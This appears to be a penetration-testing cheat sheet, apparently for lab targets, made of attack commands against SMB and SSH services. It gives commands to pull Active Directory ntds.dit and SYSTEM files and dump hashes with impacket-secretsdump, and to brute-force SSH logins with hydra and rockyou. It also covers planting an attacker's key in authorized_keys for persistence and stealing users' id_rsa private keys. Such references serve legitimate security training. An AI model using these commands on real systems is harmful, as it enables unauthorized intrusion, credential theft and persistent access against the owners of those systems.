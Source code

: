 ```jsx
smbclient '//192.168.223.240/backup' -N -c 'prompt OFF;recurse ON;mget *'
```

```jsx
timeout 100
get ntds.dit
get SYSTEM
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

## SSH

```jsx
hydra -L users-ssh.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.238.122 -V -u -f -o valid-ssh-creds.txt
```

```jsx
sed -r 's/\s+//g' users.txt file
```

```jsx
ssh seppuku@192.168.177.90 -t "bash --noprofile"
```

```jsx
ssh -i root root@127.0.0.1 -o IdentitiesOnly=yes
```

### Upload own id_rsa.pub to target

```jsx
ssh-keygen                                   # create id_rsa & id_rsa.pub (DONE! ~/.ssh/id_rsa & ~/Desktop/share/authorized_keys)
~/Desktop/share/authorized_keys (id_rsa.pub) # upload this file to target under ~/home/remi/.ssh/authorized_keys
ssh -i ~/.ssh/id_rsa remi@192.168.191.231    # connect to target with {username = remi}
```

### Steal id_rsa from target

Steal /home/user/.ssh/id_rsa and login with it to the target (cracking passphrase could be required! & chmod 400 id_rsa)

<aside>
💡 Note that there could be other encryption then RSA:

By default, SSH searches for `id_rsa`, `id_dsa`, `id_ecdsa`, `id_ecdsa_sk`, `id_ed25519`, `id_ed25519_sk`

More information could be extracted from **/etc/ssh/ssh_config & /etc/ssh/sshd_config**

</aside>

## LDAP
